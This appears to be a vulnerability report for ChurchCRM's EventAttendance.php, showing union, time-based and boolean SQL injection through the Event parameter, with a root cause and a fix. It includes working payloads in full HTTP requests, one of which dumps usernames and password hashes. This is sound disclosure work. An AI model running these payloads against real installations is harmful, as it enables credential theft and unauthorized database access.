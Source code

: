 # Description
The endpoint **/EventAttendance.php** is vulnerable to Union-based and Blind SQL Injection (Boolean & Time-based) via the **Event** GET parameter. 

This endpoint can be triggered through the following menu: Events - Event Attendance Reports - Church Service/Sunday School. The Event Parameter is taken directly from the query string and passed into the SQL query without any sanitization or input escaping. This allows the attacker to inject malicious Event payloads to execute the malicious SQL query.


# Proof of Concept

1. Retrieving the username & password from user_usr table through **Union-based SQL Injection**.

**Affected Parameter**: Event

**Payload**: SELECT 1,NULL,CONCAT(usr_Username,':',usr_Password),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL from user_usr-- -


```
GET /churchcrm/EventAttendance.php?Action=List&Event=2+UNION+ALL+SELECT+1,NULL,CONCAT(usr_Username,':',usr_Password),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL+from+user_usr--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1IzY7UChBtUnl-4UBcO343TUvKhCh7UC3)



2. Triggering response delays with MySQL sleep function through **Time-based SQL Injection**.

**Affected Parameter**: Event

**Payload**: 2 OR SLEEP(5)-- -

```
GET /churchcrm/EventAttendance.php?Action=List&Event=2+OR+SLEEP(5)--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1_fug3-M-XnEu7mD2eAc9qCVMOPUKxg2N)


3. Conditional Response with TRUE and FALSE conditions through **Boolean-based SQL Injection**.

**Affected Parameter**: Event

**TRUE Payload**: 99 OR 1=1-- -

**FALSE Payload**: 99 OR 1=2-- -

True Payload will show all events regardless the wrong event id submitted
```
GET /churchcrm/EventAttendance.php?Action=List&Event=99+OR+1%3d1--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1EIaib9DQwM4kfNLDmKLUVegXxhiPjcXB)


False Payload will not show any events

```
GET /churchcrm/EventAttendance.php?Action=List&Event=99+OR+1%3d2--+-&Type=Sunday%20School HTTP/1.1
Host: localhost:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:107.0) Gecko/20100101 Firefox/107.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost:8888/churchcrm/EventAttendance.php
Cookie: CRM-2c90cf299230a50dab55aee824ed9b08=epssb3ek27omiaeu1ovnjuuaka
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

```

![image](https://drive.google.com/uc?export=view&id=1sdP1a2NaemtDxIy2Zntw2ziSJ-CezSn3)

# Root Cause
User input on the Event parameter is not sanitized and used directly in the query through string concatenation.
https://github.com/ChurchCRM/CRM/blob/master/src/EventAttendance.php#L53

# Recommendation
Avoid direct string concatenation into the sql query. It's recommended to use input sanitization as well as implementing parameterized query.
